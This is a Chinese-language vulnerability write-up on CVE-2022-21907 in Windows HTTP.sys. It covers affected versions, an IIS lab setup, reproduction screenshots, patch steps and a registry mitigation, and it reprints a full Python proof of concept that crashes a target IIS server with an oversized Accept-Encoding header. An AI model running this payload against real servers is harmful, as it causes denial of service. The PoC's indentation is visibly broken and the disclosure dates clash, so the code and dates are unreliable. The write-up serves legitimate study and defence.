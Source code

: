 
# 0X00 漏洞信息
2022年1月14日，监测到一则微软官方公开并修复了Microsoft Windows HTTP协议栈远程代码执行（CVE-2022-21907）漏洞的信息。该漏洞是由于 HTTP 协议栈(HTTP.sys)中的 HTTP Trailer Support 功能中存在边界错误导致缓冲区溢出。Windows HTTP 协议栈（HTTP.sys）是Windows操作系统中处理HTTP请求的内核驱动程序，常见于Web浏览器与 Web 服务器之间的通信，以及Internet Information Services (IIS)中。<br />未授权的远程攻击者通过向 Web 服务器发送一个特制的 HTTP 请求，触发缓冲区溢出，从而在目标系统上执行任意代码或造成服务器拒绝服务。<br />未经身份验证的攻击者通过向Web服务器发送特制的HTTP数据包，从而在目标系统上执行任意代码。<br />该漏洞被微软提示为“可蠕虫化”，无需用户交互便可通过网络进行自我传播，目前已发现可造成目标主机蓝屏崩溃的漏洞利用出现，请相关用户尽快采取措施进行防护。


# 0X01 漏洞概述
| 漏洞名称 | HTTP协议栈远程代码执行漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2022-21907 |
| CNVD编号 |  |
| CNNVD编号 |  |
| 其他编号 |  |
| 披露时间 | 20211214 |
| 分数 | 9.8 |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2022-21907#vulnCurrentDescriptionTitle](https://nvd.nist.gov/vuln/detail/CVE-2022-21907#vulnCurrentDescriptionTitle) |


# 0X02 影响范围
**受影响版本：**
```
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows 11 for ARM64-based Systems
Windows 11 for x64-based Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```

**不受影响版本：**
```
Windows 10 version 1909
Windows Server 2019（默认配置不受影响）
Windows 10 version 1809（默认配置不受影响）
```


# 0X03 环境搭建
1、搭建存在漏洞的Win10系统
![image.png](_img/assets/1659429240424-975bfe71-6e46-4afe-8b23-55b4e00d6047.png)

2、启用IIS服务
![image.png](_img/assets/1659429280269-9c97d32e-2b2f-4b65-bf4d-8e51218f48ee.png)

3、启动网站
![image.png](_img/assets/1659429321696-6b28239c-b610-4880-8273-7fa00e05bb0e.png)

4、访问网站，成功访问则环境搭建成功。


# 0X04 代码审计



# 0X05 漏洞复现
运行POC脚本后，系统蓝屏。
```python
$ ./CVE-2022-21907_http.sys_crash.py -h
usage: CVE-2022-21907_http.sys_crash.py [-h] -t TARGET [-v]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IIS Server.
  -v, --verbose         Verbose mode. (default: False)
```

```python
./CVE-2022-21907_http.sys_crash.py -t 192.168.1.18
```
![image-20220120100402148.png](_img/assets/1659429724219-1bf3a822-870d-4435-9f39-93b121734f72.png)

分析Dump文件
![image.png](_img/assets/1659429514403-5956a098-431d-44fb-9166-378018807314.png)

调用栈情况
![image.png](_img/assets/1659429552334-859668b8-4509-4360-ab92-d7328f09e97c.png)


# 0X05 POC
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# File name          : CVE-2022-21907_http.sys_crash.py
# Author             : Podalirius (@podalirius_)
# Date created       : 13 Jan 2022

import argparse
import datetime
import requests
import time
import threading


def parseArgs():
    parser = argparse.ArgumentParser(description="Description message")
    parser.add_argument("-t", "--target", default=None, required=True, help='Target IIS Server.')
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help='Verbose mode. (default: False)')
    return parser.parse_args()


def monitor_thread(target, dtime=5):
    print('[>] Started monitoring of target server for the next %d seconds.' % dtime)
    for k in range(dtime):
        try:
            r = requests.get(target, timeout=1)
        except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectTimeout) as e:
            print("   [%s] \x1b[1;91mTarget is down!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
        else:
            print("   [%s] \x1b[1;92mTarget is reachable!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
            time.sleep(1)
            
            
            if __name__ == '__main__':
                options = parseArgs()
                
                if not options.target.startswith('http://') and not options.target.startswith('https://'):
                    target = "http://" + options.target
                else:
                    target = options.target
                    
                    payload = 'AAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&AA&**AAAAAAAAAAAAAAAAAAAA**A,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAA,****************************AAAAAA, *, ,'
                    
                    # Starting monitoring thread
                    t = threading.Thread(target=monitor_thread, args=(target,))
                    t.start()
                    time.sleep(2)
                    
                    # Sending payload
                    print("   [+] Sending payload ...")
                    try:
                        r = requests.get(target, headers={"Accept-Encoding": payload}, timeout=15)
                    except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectTimeout) as e:
                        t.join()
                        print("[%s] \x1b[1;91mTarget successfully crashed!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
                        
                        # Cleanup
    t.join()
```


# 0X06 解决方案
**补丁更新：**<br />Windows系统默认启用Microsoft Update，当检测到可用更新时，将会自动下载更新并在下一次启动时安装。还可通过以下步骤快速安装更新：

1. 点击“开始菜单”或按Windows快捷键，点击进入“设置”
2. 选择“更新和安全”，进入“Windows更新”（Windows8、Windows 8.1、WindowsServer 2012以及Windows Server2012 R2可通过控制面板进入“Windows更新”，步骤为“控制面板”->“系统和安全”->“Windows更新”）
3. 选择“检查更新”，等待系统将自动检查并下载可用更新
4. 重启计算机，安装更新

目前微软官方已针对受支持的产品版本发布了修复以上漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907) <br />注：由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。<br />针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。


**临时防护**<br />若使用Windows Server 2019和Windows 10 version 1809版本的用户暂时无法安装补丁，可使用下列措施进行临时缓解：

在DWORD注册表中删除“EnableTrailerSupport”可防护此漏洞的攻击，“EnableTrailerSupport”的路径为：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\HTTP\Parameters

注：当用户通过EnableTrailerSupport注册表值启用了HTTP Trailer Support时，以上版本才受该漏洞影响，默认配置时不受该漏洞影响

